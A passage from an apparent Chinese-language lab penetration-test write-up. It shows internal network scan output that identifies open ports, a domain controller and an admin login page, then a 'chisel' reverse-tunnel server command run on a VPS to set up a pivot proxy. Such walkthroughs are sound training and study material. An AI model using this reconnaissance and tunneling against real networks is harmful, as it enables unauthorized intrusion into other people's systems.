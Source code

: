 ```plain
172.22.6.38:80 open
172.22.6.12:445 open
172.22.6.25:139 open
172.22.6.12:139 open
172.22.6.25:135 open
172.22.6.12:88 open
172.22.6.25:445 open
172.22.6.38:22 open
172.22.6.36:22 open
172.22.6.36:7687 open
[*] alive ports len is: 11
start vulscan
[*] NetInfo 
[*]172.22.6.12
   [->]DC-PROGAME
   [->]172.22.6.12
[*] NetInfo 
[*]172.22.6.25
   [->]WIN2019
   [->]172.22.6.25
[*] NetBios 172.22.6.25     XIAORANG\WIN2019              
[*] OsInfo 172.22.6.12  (Windows Server 2016 Datacenter 14393)
[*] NetBios 172.22.6.12     [+] DC:DC-PROGAME.xiaorang.lab       Windows Server 2016 Datacenter 14393
[*] WebTitle http://172.22.6.38        code:200 len:1531   title:后台登录
[*] WebTitle https://172.22.6.36:7687  code:400 len:50     title:None
```

## 代理搭建

VPS作为服务端

```plain
./chisel server -p 7000 -reverse
```

[![](assets/1705540441-d3f66e591843cc9ad2db56bf258e7f6a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116175136-d677638c-b454-1.png)
